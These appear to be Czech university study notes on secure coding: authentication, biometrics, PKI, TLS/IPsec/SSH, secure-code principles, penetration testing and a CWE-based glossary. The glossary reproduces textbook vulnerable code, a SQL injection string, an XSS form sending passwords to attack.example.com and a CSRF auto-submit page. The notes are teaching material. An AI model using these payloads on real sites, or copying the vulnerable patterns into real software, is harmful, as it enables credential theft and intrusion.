

# Secure Code

> Authentication and access control methods. Biometric authentication methods, their implications and problems. Electronic signature and its use. Authentication of machines and applications. Principles and principles of secure code. Typical code-level security vulnerabilities, concurrency, input treatment. Security vulnerability detection, penetration testing. Practical examples for all of the above. (PV157, PA193, PV276)

[PV157 prednasky](https://is.muni.cz/auth/el/fi/podzim2022/PV157/um/)

## Authentication and access control methods

### Klicove pojmy

- **Autentizace** = overeni identity/verifikace - kombinace identity (jmeno) a dukazu (heslo)
- **Identifikace** = rozpoznani entity v dane mnozine entit - uzivatel nepreklada identitu, ale server se mu ji snazi predlozit z DB znamych entit (jako otisk prstu u dveri)
- **Autorizace** = udeleni prav k vykovavani urcitych akci

### Metody autentizace

- znalost (pin/heslo)
- vlastnictvi fyzickeho tokenu (klic/cipova karta - resi se cena padelani, obvykle velka za kus, produkce ve vetsim meritku je levnejsi)
- biometrie (otisk prstu, scan obliceje, scan zornicky)
- fyzicka/virtualni lokace (pokud se pocitac prihlasi ze znameho mista, vse OK)

autentizace muze byt vyzadovana **jednostranne** (web serveru je jedno, komu odopovida) nebo **oboustranne** (pro dulezite akce je treba overit i uzivatele)

### Autentizace na zaklade vyzvy - **challenge-response**

- **symetricky postup:**
  - uzivatel zazada o pristup (login request)
  - server zasle RANDom number vyzvu
  - uzivatel zasifruje svym symetrickym klicem A posle zpet
  - server overi sifru zasifrovanim stejne zpravy svym klicem
  - match ? login successfull : login incorrect
  - **Security issue:**
    - prostrednik muze odchytit RAND a zasifrovany RAND a pro tyto dve hodnoty si najit klic
- **asymetricky postup:**
  - uzivatel private key
  - server public key uzivatele
  - server zasle RAND uzivateli
  - uzivatel zasifruje svym private key
  - server overi, ze po odsifrovani uzivatelovym public key je zprava stejna
  - **Security issue:**
    - zasilani opakujicich se challenges
    - prostrednik si muze pamatovat response na urcite opakujici se challenges
    - ve spravny moment zaslat response na zaklade predesle znalosti

### Zero-knowledge protokoly

- demonstrace znalosti tajemstvi, aniz bychom odhalili jakoukoliv informaci vedouci k ziskani tajemstvi

### Autentizace tajnymi informacemi

- **Tajne informace**

  - autentizace uzivatele
  - idealni pripad - autorizovanym nekomplikuji fungovani, ale co nejvice znesnadnuji utocnikum
  - resi se pri:
    - ukladani
    - bezpecnosti (kvalita/slozitos) vs zapamatovatelnost
    - jak probiha kontrola
    - postup v pripade kompromitace
  - dodrzujeme:
    - informace nesmi byt odvoditelna
    - informace z velkeho prostoru hodnot (vynuceni specialnich znaku, velkeho pismena, cisla, ...)
    - informace nepredavame v ciste podobe
      - sifrujeme
      - posilame jen hash
      - challenge-response
  - priklady: pin/heslo/passphrase/identifikace obrazove informace/spojeni bodu (jak na mobilu)

- **PASSPHRASE** vs **PASSWORD**

  - password je kratsi set mixovanych charakteru
  - passphrase je delsi string, ktery ma nejakou semantiku/vyznam

- **Hesla**

  - moznosti
    - skupinove (miziva bezpecnost)
    - unikatni per person - podle hesla se uzivatel i identifikuje
    - kombinace s uzivatelskym jmenem
    - jednorazove - vicefaktorove autentizace, prokazujeme vlastnictvi tokenu
  - ukladaji se **hashovana**
    - idealne obohacena o salt & pepper
  - nucena expirace
  - kompromis bezpecnosti a zapamatovatelnosti = hesla zalozena na frazich

- **Utoky na hesla**

  - cilene (snazime se zjistit heslo konkretniho uzivatele) vs plosne (unik hesel z databaze)
  - online (omezit pocet pokusu) vs offline (zmocneni se souboru s hasi/sifrovanymi daty)
  - odpozorovani (vizualne, phishing, zachyceni komunikace, sniffing)
  - slovnikovy
  - hruba sila
  - zneuziti mechanismu obnovy hesla
  - analyza zdrojoveho kodu
  - default hesla z manualu
  - kradez databaze, ziskani obsahu pameti/cache
  - rainbow tables (prepocitane hodnoty a jejich hashe)

- **Jednorazove hesla**

  - nahodne generovana a zaslana separatne (multifactor authentication)
  - nebo **Lamportuv retezec hashes**
    - uzivatel ma ulozene lokalne puvodni heslo
    - 1000x prozene hash funkci
    - vysledek da serveru
    - autentizace -> uzivatel posle predchozi hash (999, 998, ...)
    - server vezme hash a prozene hashovaci funkci 1x -> porovna s predeslym hashem
    - match ? uzivatel autentizovany
  - nebo **fyzicky pristroj**
    - generuje nahodna hesla na zaklade casu
    - stejny princip je znam sluzbe/serveru
    - nutna synchronizace hodin

- **PINy**

  - velmi kratke
  - velmi malo pokusu

#### Autentizace pomoci symetricke kryptografie

- komunikuji s nekym, kdo sdili muj klic?
  - poslu RAND a druha strana zasifruje a posle zpet -> zkontroluju
  - lze oboustrane, v zasifrovane zprave je i challenge pro me
- nebo nepredavame si sifrovane data, ale jen hashe (data mohou byt velmi velka - hash ma stejnou delku)

#### Autentizace pomoci asymetricke kryptografie

- tvorba dvou klicu - private & public
- zasifrovani pomoci public key ziskaneho od majitele private key
- pouze majitel skrze private key muze desifrovat zpravu
- alternativne pomoci podpisu:
  - mimo souboru zasleme i zahashovany soubor a zasifrovany soukromym klicem -> **signature**
  - prijemce ziska dokument a pro overeni pravosti zahashuje soubor znova a porovna s desifrovanym signature

### Protokoly pro spravu klicu

- **Aktualizace klice**

  - novy klic posleme zasifrovany
    - muze obsahovat casove razitko
  - tady mas nahodne cislo - novy klic je toto cislo zasifrovane starym klicem

- **Ustanoveni klice bez predchoziho sdileneho tajemstvi**
  - **Diffie Hellman protokol**
    - dva subjekty se domluvi na spolecnem zakladu `g` (prvocislo) a velkem cisle `n`
    - kazdy prida svou tajnou ingredienci A -> `a`, B -> `b`
      - `x_a = g^a mod n`
      - `x_b = g^b mod n`
    - vymenime si vysledek
    - pridame svou tajnou informaci a vyuzivame vysledek `x_ab = g^ab mod n`
    - **Security issue:**
      - jednoduchy odposlech formou prostrednika
      - radsi fungovat pomoci asymetrie

### Rizeni pristupu

- bezpecnostni mechanismus pro umozneni uzivatelum vykonavat v systemu nejake akce
- pojmy
  - vlastnik dat - zodpovedny za urcita data
  - spravce dat - zodpovedny za bezpecnost urcitych dat
  - uzivatel - vykonava operace nad daty dle svych pristupovych prav
- politiky rizeni pristupu
  - **volitelny pristup/decentralizovana sprava rizeni** - vlastnik objektu sam rozhoduje
    - mala rezie
    - spatne vynucovani celosystemovych pravidel
    - accidental zverejneni uzivatelem, ktery ma ke chranenemu objektu pristup
  - **povinny pristup/centralizovana sprava rizeni** - jednotna systemova politika pristupu
  - **hybrid** - flexibilnejsi system, ale u kritickych objektu stale zarucena bezpecnost
- typy prav
  - read
  - write
  - execute
  - pokrocilejsi: append only, ...
- prava treba v matici
  - X = soubory
  - Y = uzivatele
  - uprostred prava
- prava muzou byt ukladana i v metadatech objektu - **Access Control List (ACL)**
  - tezko se centralizovane hleda, k cemu vsemu ma user pravo
- pristup k objektu:
  - omezen casem, mistem, intervalem hodnot, typem sluzby
  - na zaklade identity, jeho role nebo hesla
- UNIX systemy maji superadmina/**root** - pristup ke vsemu
  - pokud se k rootu utocnik dostane = RIP
  - snaha o granularitu rootu
- **Good practices**
  - separace opravneni - dulezita operace je potvrzena vicero aktery
  - omezeni prav jednotlivce - pravo jen k tomu, co potrebuje
  - defaultni response je zamitnuti - explicitne musime udelovat povoleni
- **Multi-level systems (MLS)**
  - do systemu muzou pristupovat vsichni
  - data zobrazujeme/umoznujeme pouzivat dle jejich urovne
  - role jsou hierarchicke (Visitor -> Registered -> Staff -> Admin)
  - **skryty kanal**
    - nemoznost vytvorit soubor? indikace, ze stejny soubor existuje
- **Role-based access control (RBAC)**
  - uzivatel dostava role (i vicero)
  - role = opravneni
  - treba role v databazich

## Biometric authentication methods, their implications and problems

- Automatizovane metody identifikace nebo overeni identity na zaklade meritelnych fyziologickych nebo behavioralnich vlastnosti cloveka
- nejdrive je treba data nasnimat, ulozit, pote vyuzivat k autentizaci/identifikaci (pomoci srovnavani charakteristik)
- **musime resit variabilitu** nasnimanych dat a nasnimaneho vzorku
  - data nejsou nikdy zcela identicka
  - zavisi na mericich podminkach
  - samotnem zarizeni
  - stavu mereneho subjektu
  - schopnosti mereneho subjektu provest mereni spravne
  - 100% schoda je sketchy -> utocnik se dostal k ulozenym datum?
  - hleda se balanc mezi **false acceptance** (bezpecnostni riziko) a **false rejection** (nepohodli uzivatele)
- biometrika je vhodna jako doplnkova metodu, pristup k tajnemu klici, autentizaci uzivatele, ale ne dat, ne pro pouziti jako samotny klic

**Problemy:**

- nejsou bezchybne
- Failure to enroll - neni mozne ziskat biometrickou charakteristiku (urezane prsty)
- Failure to acquire/capture - neni mozne ziskat charakteristiku pri autentizaci (prsty prejete zehlickou)
- False positive identification - prijali jsme chybne
- False negative identification - zamitli jsme chybne
- fenotypicke charakteristiky - biologicka promena v case
- genotypicke charakteristiky - dna je obtizne rychle vyhodnotit
- mereni neni dokonale (okoli, merici pristroj)
- neprijemne (extrakce krve, sviti do oci jak cyp)
- zivost - jde o cloveka nebo kopii otisku prstu? (je clovek die dead?)
- jedna charakteristika - vice systemu - zverejneni nesmi ohrozit jine systemy
- biometriky nejsou tajne (prst furt nemam v rukavici neasi..)
- ochrana soukromi, legislativni omezeni
- neni vhodne z biometrik generovat kvalitni kryptofraficke klice

**Kontinualni autentizace:**

- subjekt kontinualne kontrolujeme a snazime se detekovat odchylky od normalniho chovani
- naznacuje neco, ze se jedna o utocnika? dynamika psani na klavesnici?

Forenzni systemy pro biometrickou autentizace jsou spolehlivejsi, ale nasobne drazsi a pomalejsi, vyzaduji odborniky

**Priklady:**

- otisk prstu (sledujeme markanty)
- geometrie ruky
- sken duhovky
- sken sitnice
- rozpoznani obliceje
- rozpoznani hlasu
- rozpoznani stylu interakce se zarizenim
- dna

## Electronic signature and its use

- autentizace a integrita
- overitelny treti stranou
- nezajistuje duvernost dat (informace jsou pristupne jen tomu, kdo je opravnen se s nima seznamovat)
- podpis by mel obsahovat datum/cas (timestamp)
- algoritmy (RSA, DSA)
- prvne podepisujeme, potom sifrujeme!

**Postup:**

1. vytvorim asymetricke klice
2. **verejny klic zpristupnim**
3. pro kazdy podepisovany dokument vytvorim hash podepisovaneho dokumentu (dat) -> sifruju hash **soukromym klicem**
4. podepsany dokument overuji pomoci vystaveneho verejneho klice

**Pouziti:**

- autentizace dat
- autentizace pocitacu/tokenu pomoci mechanismu challenge-response
  - jsi real? pak mi podepis tyto data!

**Certifikat:**

- spojuje verejny klic s informaci o subjektu - potvrzeni identity
- **spolecne s informacemi o certifikacni autorite je podepsan pomoci soukromeho klice certifikacni autority**
  - vytvari se **chain of trust**
- certifikacni autorita
  - zajistuje, ze dany subjekt opravdu vlastni soukromy klic
  - autentizuje subjekt vystavujici verejny klic (zasjituje, ze dany subjekt je tim, co tvrdi)
  - potvrzuje platnost verejneho klice daneho subjektu svym podpisem
- je casove omezen

**Infrastruktura pro spravu verejnych klicu (PKI):**

- **Certifikacni autorita** - poskytuje certifikacni sluzby, vydava certifikaty a zneplatnuje je
- **Registracni autorita** - registruje zadatele o vydani certifikatu, proveruje jejich identitu (muze byt zaroven CA)
- **Adresarova sluzba** - uchovava a distribuuje platne klice (a seznam zneplatnenych certifikatu)
- certifikacni autoritu obvykle certifikuje nadrazena certifikacni autorita -> chain of trust

**Vystaveni certifikatu:**

- generovani klicovych dat (key-pair pro asymetrickou kryptografii)
- dolozeni a overeni identifikacnich informaci (pro web predame udaje o identite a nahrajeme urcity soubor, abychom dokazali, ze mame nad serverem kontrolu)
- vydani certifikatu zadateli (+ zverejneni v adresarove sluzbe)

## Authentication of machines and applications

- na zaklade adresy (IP, MAC)
  - MAC - fyzicka adresa - svazani portu switche + MAC adresy nebo svazani IP a MAC adresy
  - IP - rizeni pristupu k webovym sluzbam na zaklade IP adresy
  - oboje adresy muzeme menit - **security issue** - uvedeme cizi IP adresu treba
- na zaklade tajne informace
  - heslo/tajny symetricky/asymetricky klic
  - ukladat zasifrovane a pri startu zadat heslo

**TLS/SSL - protokol vyssi urovne:**

- SSL obsolete, ted se pouziva TLS (1.2 nebo nejnovejsi 1.3)
- autorizuje strany pomoci certifikatu a challenge-response
- zajistuje integritu a autenticitu
- inicialni hanshake pomoci asymetricke kryptografie, potom se vymeni symetricky kryptograficky klic, kterym je sifrovana cela komunikace (rychlejsi)
- mezi aplikacni a sitovou vrstvou

**IPSec - na sitove vrstve:**

- do IPv4 pridan, v IPv6 default
- pro kazdy IP packet/datagram
  - zajistuje autentizaci odesilatele a dat (vyjma TTL, to se meni), pridame tajny klic a hash ulozime do autentizacni hlavicky
  - zajistuje integritu
  - zajistuje duvernost (symetricky sifrovaci klic znamy oboum stranam)
    - pokud vyuzivame **AH** (authentication header), tak duvernost nezajistuje, protoze je payload i header nesifrovany, pouze muzeme provest integritu
    - lepsi vyuzivat **ESP** (encapsulated security payload) - data sifruje, nesifrovana zustava jen hlavicka ESP a IP
  - ochrana pred utokem prehranim - diky platnosti puvodnich dat muze utocnik operaci zopakovat
    - resenim je MAC v kombinaci se sekvencnim cislem
- umoznuje transportni nebo tunelovaci rezim
  - **tunelovaci rezim:** cely IP packet je enkapsulovan do noveho packetu
  - **transportni rezim:** pouze payload (data) IP packetu je zasifrovan

**Secure Shell Host (SSH):**

- vzdalene prihlaseni k serveru
- oproti telnetu je komunikace sifrovana (symetricka sifra, klic se stanovi handshakem)
- autentizace serveru i klienta (viz Github a generovani klice `ssh-keygen`)
  - RSA, DSA (asymetricka kryptografie)

**Security Assertion Markup Language (SAML):**

- standard pro popis a vymenu autentizacnich dat
- zalozeny na XML
- pro webove aplikace
- oddeleni poskytovatele identity a poskytovatele sluzeb (umoznuje Single Sign-On (SSO))
- SAML token obsahuje
  - subject (kdo je drzitel tokenu, eg user_id)
  - auth statement (zpusob a cas provedene autentizace)
  - prislusnost ke skupinam, rolim, povolenym operacim
- zakladni subjekty:
  - client - prihlasuje se
  - identity provider - prihlasuje se skrze prostrednika, ktery si zapamatuje login uzivatele (single sign-on)
  - provided software - kooperuje s IDP a nepozaduje po clientovi se znovu prihlasit (pokud ziska pristup)

## Rules and principles of secure code

**Defensive programming:**

- psat kod tak, aby byl system pripraven pracovat v prostredi, kde mohou nastavat chyby

  - overovani vstupnich dat
  - osetreni situaci, ktere "nemuzou nastat"
  - priprava systemu na testovani (dekompozice, zavislost na abstrakcich) a diagnostiku chyb (logovani)
  - logovani udalosti

- zajisteni bezpecnosti lze udelat ruznymi zpusoby (urcite je vhodne delat viceurovnovou ochranu):
  - pouziti bezpecnejsiho jazyka
    - nebo striktnejsi mod prekladace
  - spousteni aplikace v sandboxu (container), aby utocnik neziskal kontrolu nad celym strojem
  - dukladne staticke a dynamicke testovani, code reviews
  - pouziti osvedcenych knihoven
  - zavislosti pravidelne sledovat (dependabot) pro vysky bezpecnostnich slabin
  - pouziti bezpecnych verzi funkci, nepouzivani obsolete funkci
  - kontinualni integrace, automatizovane testovani, staticka analyza
  - klicove znat pouzity jazyk a jeho typicke slabiny
  - whitelisting > blacklisting (deny by default)

## Typical code-level security vulnerabilities, concurrency, input treatment

- typicke chyby:

  - [top x vulnerabilities - link to glossary](#common-weaknesses-enumeration-examples)

**Soubeznost** (race condition) ((a.k.a. rasova podminka))

- spatne nacasovani operaci nebo poradi zpusobi necekany stav programu
- promenna ve sdilene pameti, dva procesy prectou aktualni hodnotu a chcou inkrementovat o 1 (pokud prectou 0, oba zapisou 1)
- **resenim** je vyznaceni problematicke casti jako **kriticke sekce**
  - vynutit pristupova pravidla pisaru a ctenaru (locking system)
  - writer existuje? Nesmi byt dalsi a zaroven nesmi existovat reader
  - neexistuje writer? Muze existovat libovolne mnozstvi readeru
  - striktnejsi muze byt uzamceni cele kriticke sekce - pristup jen jednoho procesu
- pokud je vicero kritickych sekci, pozor na **DEADLOCK**

**Zero-day exploit** - vyuziti bezpecnostni chyby, ktera neni obecne znama/neexistuje obrana

**Osetreni vstupu:**

- **fail-fast** pristup
  - pracujeme s chybnymi daty? prerusit standardni pruchod funkci a zpracovat chybu
  - koncovemu uzivateli sdelujeme jen nutne minimum nutne pro identifikaci duvodu chyby
- omezeni poctu validnich vstupu (jen cisla? zadne mezery?)
- data mapujeme na interni data (dropdowny)
- kontrola maximalni delky vstupu (u zpracovani souboru) - cteni po radcich
- validacni knihovny (not reinventing the wheel)
- pruzkum co vsechno v nasem systemu zavisi na uzivatelskem vstupu je mozne pomoci **taint analyzy**
  - proces identifikujici flow user inputu skrz system (pochopeni security implikaci)
  - treba objevit SQL injection rizika
- komponenty pouzivaji kontrakty (pre/postconditions, invariants)
- kontrola vstupu pomoci **fuzzingu**
- nikdy neverit uzivatelskym vstupum

## Security vulnerability detection, penetration testing

- pristupy pro detekci bezpecnostnich zranitelnosti:
  - staticka analyza
  - dynamicka analyza
  - fuzzing
  - penetracni testovani
  - security review

prevence zmeny navratove adresy funkce utocnikem (buffer overflow) je randomizace adres funkci v kodu

prevence code injection - prevence data execution

- pamet delime na datovou a spustitelnou
- neni mozne spoustet kod z datove casti
- SQL injection prevence pomoci **prepared statements**
  - efektivne delime casti prikazu na datovou a prikazovou

**Staticka analyza:**

- analyza kodu programu bez spusteni
- analyzovat zdrojovy kod, ale i binarku
- i na nedokonceny kod
- code review
- vynuceni jednotneho stylu kodu
- staticka analyza i samotnym prekladacem (type check)
- automatizovane nastroje (sonarqube, tslint, eslint)
- byva soucasti CI
- snadne odhaleni castych chyb

**Dynamicka analyza:**

- spousteni programu a poskytnuti ruznych vstupu
- vyuziti virtualizovanych zdroju (pro profiling)
- lze vyuzit omezene prostredi (simulace)
- sledovani dat a jejich zmeny v programu
- logovaci instrukce
- **Fuzzing**
  - nahodne generovane vstupy a sledujeme vystupy
  - pro blackbox
  - v praxi poskytneme nekolik vhodnych seedovacich vstupu a fuzzer je modifikuje
  - klicove je mit velky pocet vstupu
  - example intel `div` instrukce, ktea failovana jednou z +-1b pokusu
  - obvykle tim najdeme jednoduche chyby nebo chyby validace

**Security review:**

- top-down nebo bottom-up (vhodnejsi pri nejasne architekture, ale narocnejsi na provedeni) nebo hybridne
- zacina u architektury a dokumentace, snaha o detekci navrhovych chyb
- u kodu se kontroluje, jak dobre implementuje architekturu, hleda se high-level zranitelnosti, pak v samotnem kodu
- hodnoti se dodrzovani bezpecnostnich standardu
- testuje se zapezpeceni (pentest, DDoS, staticka analyza)
- kontrola pristupu a sprava opravneni
- hodnoti se bezpecnostni opatreni, monitoring
- hodnoti se ochrana dat, sprava klicu, sifrovani
- **vysledkem je zprava popisujici soucasny stav a doporuceni do budoucna**

**Penetracni testovani:**

- komplexni penetracni testovani je narocne
- vybiraji se slaba mista a zameruje se na ne
- zameruje se na jednotlive mista systemu
- **interne**
  - tymem v ramci organizace
  - znalost zdrojoveho kodu
  - udrzovani specializovaneho odborneho tymu
- **externe**
  - jinou, specializovanou spolecnosti
  - soucasti compliance (certifikace SW)
  - poskytovat kod externe muze byt problem
- whitebox/blackbox (greybox = dokumentace bez zdrojaku)
- system odmen - bug bounty

## Glossary

### Cyclic Redundancy Check (CRC)

- kontrolni soucet, umoznuje detekci neumyslnych chyb pri prenosu/ulozeni
- neposkytuje ochranu pred umyslnou zmenou
- xor/modulo operace

### Buffer-overflow attack

Genialni [video](https://www.youtube.com/watch?v=AD-iXWANggo&ab_channel=AaronYoo) s vysvetlenim

Pokud mame neosetrenou memory boundary, muze utocnik teto vulnerability vyuzit a uskutecnist nasluedujici:

1. Ve **STACKu** prepsat memory v RAM
2. funkce ma svuj buffer a za nim navratovou hodnot (respektive return address)
3. pokud velikost inputu, respektive velikost adresace bufferu, prepiseme a vcetne bufferu prepiseme i return address
4. muzeme spustit kod na jine lokaci (lokaci prepsane return address)
5. 2 moznosti:
   1. spustit existujici kod
   2. spusit svuj kod - **jak?**
      1. do bufferu funkce vlozime svuj vlastni kod, ktery chceme executnout
      2. return addressu prepiseme, aby referencovala zacatek bufferu
      3. return addressa executne kod v ramci bufferu
      4. custom code EXECUTED - tadaaa



**Mentionable notes:**

- executovat runnable program s root accessem se nam muze seredne vymstit
  - pokud v kodu existuje possible buffer-overlow, muzeme spustit vlastni kod, ktery spusti shell/terminal (ten ma !!**root**!! prava a utocnik si muze delat co chce)

### Common Weaknesses Enumeration examples

[CWE link](https://cwe.mitre.org/data/definitions/787.html)

#### Out-of-bounds Write

The product writes data past the end, or before the beginning, of the intended buffer

**Result:**

- corruption of data, a crash, a code execition
- write operation may produce undefined or unexpected results

**Examples:**

attempts to save four different identification numbers into an array:

```c
int id_sequence[3];

id_sequence[0] = 123;
id_sequence[1] = 234;
id_sequence[2] = 345;
id_sequence[3] = 456; // 3 is out of bound
```

**^^ Problem:** `id_sequence[3] is out of bounds`

takes an IP address from the user and verifies that it is well formed. It then looks up the hostname and copies it into a buffer:

```c
struct hostent *hp;
char hostname[64];

hp = gethostbyaddr( addr, sizeof(struct in_addr), AF_INET);
strcpy(hostname, hp->h_name);
```

**^^ Problem:** function allocates a buffer of 64 bytes to store the hostname. However, there is no guarantee that the hostname will not be larger than 64 bytes. If an attacker specifies an address which resolves to a very large hostname, then the function may overwrite sensitive data or even relinquish control flow to the attacker

**Related to:**

- [Off-by-one Error](https://cwe.mitre.org/data/definitions/193.html)

#### Out-of-bounds Read

The product reads data past the end, or before the beginning, of the intended buffer

**Result:**

- By reading out-of-bounds memory, an attacker might be able to get secret values, such as memory addresses, which can be bypass protection mechanisms

**Examples:**

```c
int getValueFromArray(int *array, int len, int index) {
    int value;
    // check that the array index is less than the maximum
    // length of the array
    if (index < len) {
    // get the value at the specified index of the array
        value = array[index];
    }
    // if array index is invalid then output error message
    // and return value indicating error
    else {
        printf("Value is: %d\n", array[index]);
        value = -1;
    }
    return value;
}
```

**^^ Problem:** the array but does not check for the minimum value. This will allow a negative value to be accepted as the input array index, which will result in a out of bounds read and may allow access to sensitive memory

**Related to:**

- [Numeric Range Comparison Without Minimum Check](https://cwe.mitre.org/data/definitions/839.html)

#### SQL Injection

The product constructs all or part of an SQL command using externally-influenced input, but it does not neutralize or incorrectly neutralizes special elements that could modify the intended SQL command when it is sent to a downstream component.

**Result:**

- It can be used to alter query logic to bypass security checks, or to insert additional statements that modify the back-end database, possibly including execution of system commands

**Examples:**

```c#
string query = "SELECT * FROM items WHERE owner = '" + userName + "' AND itemname = '" + ItemName.Text + "'";
```

**^^ Problem:** Query is constructed dynamically and the attacker can use `OR 'a'='a` in the end of the SQL command - resukts in `WHERE` clause to always evaluate to true, so the query becomes logically equivalent to the much simpler query:

```sql
SELECT * FROM items;
```

#### Cross-site Scripting

The product does not neutralize or incorrectly neutralizes user-controllable input before it is placed in output that is used as a web page that is served to other users.

**Result:**

- Once the malicious script is injected, the attacker can perform a variety of malicious activities:
  - transfer private information (cookies)
  - attacker can send malicious requests to a web site on behalf of the victim

**Examples:**

```php
$username = $_GET['username'];
echo '<div class="header"> Welcome, ' . $username . '</div>';
```

**^^ Problem:** The input can contain a scripting syntax after the mandatory URL `http://trustedSite.example.com/welcome.php?username=`

```html
<script language="Javascript">
  alert("You've been attacked!");
</script>
```

OR

```html
<div id="stealPassword">
  Please Login:
  <form
    name="input"
    action="http://attack.example.com/stealPassword.php"
    method="post"
  >
    Username: <input type="text" name="username" /><br />Password:
    <input type="password" name="password" /><br /><input
      type="submit"
      value="Login"
    />
  </form>
</div>
```

#### Cross-Site Request Forgery (CSRF)

The web application does not, or can not, sufficiently verify whether a well-formed, valid, consistent request was intentionally provided by the user who submitted the request.

**Result:**

- It might be possible for an attacker to trick a client into making an unintentional request to the web server which will be treated as an authentic request

**Examples:**

```html
<form action="/url/profile.php" method="post">
  <input type="text" name="firstname" />
  <input type="text" name="lastname" />
  <br />
  <input type="text" name="email" />
  <input type="submit" name="submit" value="Update" />
</form>
```

```php
// initiate the session in order to validate sessions
session_start();

if (! session_is_registered("username")) {
    echo "invalid session detected!";
    // Redirect user to login page
}

function update_profile {
    // read in the data from $POST and send an update
    // to the database
    SendUpdateToDatabase($_SESSION['username'], $_POST['email']);
    [...]
    echo "Your profile has been successfully updated.";
}

update_profile();
```

**^^ Problem:**

```html
<script>
  function SendAttack() {
    form.email = "attacker@example.com";
    // send to profile.php
    form.submit();
  }
</script>

<body onload="javascript:SendAttack();"></body>

<form action="http://victim.example.com/profile.php" id="form" method="post">
  <input type="hidden" name="firstname" value="Funny" />
  <input type="hidden" name="lastname" value="Joke" />
  <br />
  <input type="hidden" name="email" />
</form>
```

#### Use After Free

Referencing memory after it has been freed can cause a program to crash, use unexpected values, or execute code

**Result:**

- If malicious data is entered before chunk consolidation can take place, it may be possible to take advantage of a write-what-where primitive to execute arbitrary code.
- The process may crash when invalid data is used as chunk information

**Examples:**

```c
char* ptr = (char*)malloc (SIZE);
if (err) {
    abrt = 1;
    free(ptr);
}
...
if (abrt) {
    logError("operation aborted before commit", ptr);
}
```

**^^ Problem:** When an error occurs, the pointer is immediately freed. However, this pointer is later incorrectly used in the logError function.

#### Improper Input Validation (TLDR)

The product receives input or data, but it does not validate or incorrectly validates that the input has the properties that are required to process the data safely and correctly.

- It may result in altered control flow, arbitrary control of a resource, or arbitrary code execution

```java
public static final double price = 20.00;
int quantity = currentUser.getAttribute("quantity"); // problem!
double total = price * quantity;
chargeUser(total);
```

#### Improper Authentication (TLDR)

When an actor claims to have a given identity, the product does not prove or insufficiently proves that the claim is correct.

- It leads to the exposure of resources or functionality to unintended actors, possibly providing attackers with sensitive information or even execute arbitrary code

```perl
if ($q->cookie('loggedin') ne "true") {
    # try to login
}

if ($q->cookie('user') eq "Administrator") {
    DoAdministratorTasks();
}
```
